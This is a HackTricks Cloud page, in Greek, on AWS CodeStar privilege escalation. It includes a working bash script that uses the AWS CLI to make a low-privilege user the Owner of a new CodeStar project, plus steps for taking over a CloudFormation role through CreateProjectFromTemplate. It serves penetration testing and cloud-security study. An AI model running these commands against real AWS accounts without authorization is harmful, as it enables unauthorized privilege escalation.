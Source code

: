 # AWS - Ενίσχυση προνομίων στο Codestar

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια του [**HackTricks**](https://github.com/carlospolop/hacktricks) και του [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Codestar

Μπορείτε να βρείτε περισσότερες πληροφορίες σχετικά με το codestar στο:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Με αυτές τις άδειες μπορείτε να **καταχραστείτε έναν ρόλο IAM του codestar** για να εκτελέσετε **αυθαίρετες ενέργειες** μέσω ενός **προτύπου cloudformation**. Ελέγξτε την παρακάτω σελίδα:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Αυτή η τεχνική χρησιμοποιεί το `codestar:CreateProject` για να δημιουργήσει ένα έργο codestar, και το `codestar:AssociateTeamMember` για να κάνει έναν χρήστη IAM τον **ιδιοκτήτη** ενός νέου έργου CodeStar, το οποίο θα του χορηγήσει μια **νέα πολιτική με μερικές επιπλέον άδειες**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Εάν είστε ήδη μέλος του έργου, μπορείτε να χρησιμοποιήσετε την άδεια `codestar:UpdateTeamMember` για να ενημερώσετε τον ρόλο σας σε ιδιοκτήτη αντί για το `codestar:AssociateTeamMember`.

**Πιθανή Επίδραση:** Ανύψωση προνομίων στην πολιτική codestar που δημιουργήθηκε. Μπορείτε να βρείτε ένα παράδειγμα αυτής της πολιτικής στο:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Δημιουργία Νέου Έργου:**
- Χρησιμοποιήστε την ενέργεια **`codestar:CreateProjectFromTemplate`** για να ξεκινήσετε τη δημιουργία ενός νέου έργου.
- Μετά την επιτυχή δημιουργία, η πρόσβαση χορηγείται αυτόματα για το **`cloudformation:UpdateStack`**.
- Αυτή η πρόσβαση στοχεύει ειδικά ένα stack που σχετίζεται με τον ρόλο IAM `CodeStarWorker-<γενικό όνομα έργου>-CloudFormation`.

2. **Ενημέρωση του Στόχου Stack:**
- Με τις χορηγηθείσες άδειες CloudFormation, προχωρήστε στην ενημέρωση του συγκεκριμένου stack.
- Το όνομα του stack συνήθως θα συμμορφώνεται με έναν από τους δύο παρακάτω τύπους:
- `awscodestar-<γενικό όνομα έργου>-infrastructure`
- `awscodestar-<γενικό όνομα έργου>-lambda`
- Το ακριβές όνομα εξαρτάται από το επιλεγμένο πρότυπο (αναφορά στο παράδειγμα εκμετάλλευσης σεναρίου).

3. **Πρόσβαση και Άδειες:**
- Μετά την ενημέρωση, αποκτάτε τις δυνατότητες που έχουν ανατεθεί στον **ρόλο IAM του CloudFormation** που συνδέεται με το stack.
- Σημείωση: Αυτό δεν παρέχει απαραίτητα πλήρεις διαχειριστικές άδειες. Ενδέχεται να απαιτούνται επιπλέον κακοδιαμορφωμένοι πόροι εντός του περιβάλλοντος για περαιτέρω ανύψωση προνομίων.

Για περισσότερες πληροφορίες ελέγξτε την αρχική έρευνα: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Μπορείτε να βρείτε την εκμετάλλευση στο [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py)

**Πιθανή Επίδραση:** Ανύψωση προνομίων στον ρόλο IAM του cloudformation.
